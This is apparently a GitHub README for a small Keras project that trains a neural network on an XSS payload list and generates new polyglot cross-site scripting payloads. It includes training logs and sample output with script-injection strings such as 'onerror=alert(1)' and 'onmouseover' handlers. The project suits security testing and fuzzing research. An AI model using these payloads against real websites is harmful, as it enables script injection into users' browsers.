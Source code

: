 # Generating XSS Payloads from Polyglot Files using Deep Learning

## How to use
The project includes two scripts

* `learn_payloads.py`  used to train the neural net on a set of payloads, this produces a set of weights.
* `generate_payloads.py` used to generate payloads based on a trained set of weights.  

### Training the Neural Net
In order to get the net to spit out payloads that look "polyglotty" enough (according to the structural set up I have) all you need to do is run the `learn_payloads.py` script and it will sweep up all the strings you have in a given file and try to learn the rules used to generate them so it can produce more like that.

Here's how its done:
```
keth@keithbook:~/pymlprojects_main/PyMLProjects/payloads/jhaddix/seq-12/run2$ ../../../learn_payloads.py ../../data/jhaddix.txt 
Using TensorFlow backend.
['\t', '\n', ' ', '!', '"', '#', '$', '%', '&', "'", '(', ')', '*', '+', ',', '-', '.', '/', '0', '1', '2', '3', '4', '5', '6', '7', '8', '9', ':', ';', '<', '=', '>', '?', '@', 'A', 'B', 'C', 'D', 'E', 'F', 'G', 'H', 'I', 'J', 'K', 'L', 'M', 'N', 'O', 'P', 'Q', 'R', 'S', 'T', 'U', 'V', 'W', 'X', 'Y', 'Z', '[', '\\', ']', '^', '_', '`', 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p', 'q', 'r', 's', 't', 'u', 'v', 'w', 'x', 'y', 'z', '{', '}', '~', '\x80', '\x82', '\x85', '\x86', '\x89', '\x8e', '\x8f', '\x90', '\x92', '\x93', '\x98', '\x9d', '\xa2', '\xaf', '\xbc', '\xbd', '\xbe', '\xc2', '\xc3', '\xe2']
[*] Total Characters: 36896
[*] Total Vocab: 116
[*] Total Patterns: 36884
12 1
116
[*] training model...
Epoch 1/50
2018-03-12 21:00:06.275223: I tensorflow/core/platform/cpu_feature_guard.cc:137] Your CPU supports instructions that this TensorFlow binary was not compiled to use: SSE4.1 SSE4.2 AVX AVX2 FMA
 3450/36884 [=>............................] - ETA: 8:11 - loss: 4.1146^[c
 3500/36884 [=>............................] - ETA: 8:10 - loss: 4.1133
 3550/36884 [=>............................] - ETA: 8:09 - loss: 4.1095

```

This will produce a list of weights files (used to set up the neural net from scratch if you need to use it later):

```
-rw-rw-r-- 1 keth keth 38566192 Feb 26 22:48 seq-12-weights-improvement-01-3.8815.hdf5
-rw-rw-r-- 1 keth keth 38566192 Feb 26 22:54 seq-12-weights-improvement-02-3.4597.hdf5
-rw-rw-r-- 1 keth keth 38566192 Feb 26 23:00 seq-12-weights-improvement-03-3.0045.hdf5
-rw-rw-r-- 1 keth keth 38566192 Feb 26 23:06 seq-12-weights-improvement-04-2.6040.hdf5
...
-rw-rw-r-- 1 keth keth 38566192 Feb 27 00:17 seq-12-weights-improvement-19-0.5382.hdf5
-rw-rw-r-- 1 keth keth 38566192 Feb 27 00:20 seq-12-weights-improvement-20-0.5177.hdf5

```

### Generating Payloads
In order to generate payloads you need to run the `generate_payloads.py` script, it takes in the original data file you used to train the net and a weight configuration you'd like to use (try choosing one with a low enough weight to satisfy your payload generatio nneeds) here's how to do that:

```
keth@keithbook:~/pymlprojects_main/PyMLProjects/payloads/jhaddix/seq-12$ ../../generate_payloads.py ../data/jhaddix.txt seq-12-weights-improvement-50-0.3361.hdf5 
Using TensorFlow backend.
[*] Total Characters: 36896
[*] Total Vocab: 116
[*] Total Patterns: 36884
2018-03-12 21:10:21.244253: I tensorflow/core/platform/cpu_feature_guard.cc:137] Your CPU supports instructions that this TensorFlow binary was not compiled to use: SSE4.1 SSE4.2 AVX AVX2 FMA
[*] Seed: 'e?\/onerror '

= alert(1)???
<svg><script ?>alert(1)
<input talue="``onmouseover=alert(1)"></dire <dtr sac tooreo=alert(1)"></dire <dtr sac tooreo=alert(1)"></dire <dtr sac tooreo=alert(1)"></dire <dtr sac tooreo=al
e="x:">
<--`<img/src=` onerror=alert(1)>/script>">script> document.getElementById(%div2").innerHTML;</script>
<script> document.getElementById(%div2").innerHTML;</script>
<script> document.getElementB
TML=innerHTML</script>

```
*some stderr output has been supressed, tensor flow and keras like to make a lot of noise hehe

## Dependencies

The only thing you need to get this up and running is a working python install and whatever else you need to run Keras, smoothly.
Python Keras : https://keras.io/ 


Further Reading and Similar ideas:
*  http://www.ieeeconfpublishing.org/cpir/UploadedFiles/ver11.0.pdf 
*  http://machinelearningmastery.com/text-generation-lstm-recurrent-neural-networks-python-keras/ 
*  https://0day.work/using-neural-networks-for-password-cracking/ 
